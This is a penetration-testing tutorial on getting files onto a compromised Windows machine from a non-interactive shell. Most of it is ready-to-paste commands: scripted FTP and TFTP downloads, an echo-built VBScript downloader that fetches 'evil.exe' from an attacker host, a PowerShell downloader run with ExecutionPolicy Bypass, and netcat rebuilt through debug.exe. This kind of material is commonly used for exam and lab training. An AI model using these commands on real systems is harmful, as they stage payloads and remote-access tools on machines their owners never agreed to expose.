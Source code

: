 # Transferring Files to Windows

Transferring files to Linux is usually pretty easy. We can use `netcat`, `wget`, or `curl`, which most systems have as default. But windows does not have these tools.

## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp -v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

Works by default on:  

**Windows XP**  

**Windows 2003**

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactively. Which means less risk of losing your shell.

Kali has a TFTP server build in.  
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in `/srv/tftp` and it will be served. Remember that TFTP used UDP. So if you run `netstat` it will not show it as listening.

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```

If you like to test that the tftp-server is working you can test it from Linux, I don't think it has a non-interactive way.

```
tftp 192.160.1.101
GET test.txt
```

I usually put all files I want to make available in `/srv/tftp`

If you want to make sure that the file was uploaded correct you can check in the syslog. Grep for the IP like this:

`grep 192.168.1.101 /var/log/syslog`

## VBScript

Here is a good script to make a wget-clone in VB.

If it doesn't work try piping it through unix2dos before copying it.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

You then execute the script like this:
```
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

## PowerShell

This is how we can download a file using PowerShell. Remember since we only have a non-interactive shell we cannot start PowerShell.exe, because our shell can't handle that. But we can get around that by creaing a PowerShell-script and then executing the script:

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this crazy syntax:

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

